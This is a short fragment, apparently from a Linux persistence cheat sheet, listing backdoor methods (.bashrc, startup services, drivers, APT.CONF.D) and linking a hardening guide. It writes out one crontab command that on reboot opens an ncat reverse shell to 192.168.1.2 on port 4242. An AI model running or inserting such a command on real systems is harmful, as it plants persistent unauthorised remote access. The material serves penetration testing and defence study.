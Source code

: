 		- (crontab -l; echo "@reboot sleep 200 && ncat 192.168.1.2 4242 -e  /bin/bash")|crontab 2> /dev/null 

	- Backdoor Target User .bashrc
	- Backdoor Startup Service
	- Backdoor Target User Starup File
	- Backdoor Driver
	- Backdoor APT.CONF.D

- Hardening

	- https://github.com/ernw/hardening/blob/master/operating_system/linux/ERNW_Hardening_Linux.md
